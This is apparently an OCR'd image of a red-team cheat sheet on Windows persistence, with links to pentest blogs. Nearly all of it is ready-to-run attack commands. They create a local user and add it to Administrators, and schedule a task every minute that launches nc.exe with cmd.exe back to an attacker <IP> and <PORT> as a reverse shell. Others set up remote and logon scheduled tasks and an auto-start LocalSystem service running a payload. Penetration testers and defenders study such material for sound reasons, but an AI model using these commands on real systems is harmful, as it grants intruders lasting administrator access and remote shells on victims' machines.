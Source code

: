 ## Create User:  
**Create user (CMD)**: net user username password /add  
**Add user to group (CMD)**: net localgroup Administrators username /add  
**Add user to group (Powershell)**: Add-LocalGroupMember -Group Administrators -Member username  

## Scheduled Tasks:  
**Local scheduled tast**: schtasks /create /sc minute /mo 1 /tn "Reverse shell" /tr 'c:\Users\User\Downloads/nc.exe <IP> <PORT> -e cmd.exe'  
**Create remote scheduled task**: schtasks /create /s "PC-NAME" /tn "My App" /tr "PATH" /sc minute /mo 1 /u Domain\User /p password  
**Logon Scripts**: schtasks /create /sc onlogon /tn "task-name" /tr "File or App PATH" /RU  "username"  

## Create Service:
sc create <service name> binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"  
sc start <service name>  



## Aditional Informaion:  
**Windows Tasks**:  
1. https://pentestlab.blog/2019/11/04/persistence-scheduled-tasks/  
2. https://dmfrsecurity.com/2021/09/07/scheduled-task-persistence/  
  
**Windows Registry**:  
1. https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/  
  
**Services**:
1. https://pentestlab.blog/2019/10/07/persistence-new-service/  
2. https://dmcxblue.gitbook.io/red-team-notes/persistence/new-service  
  

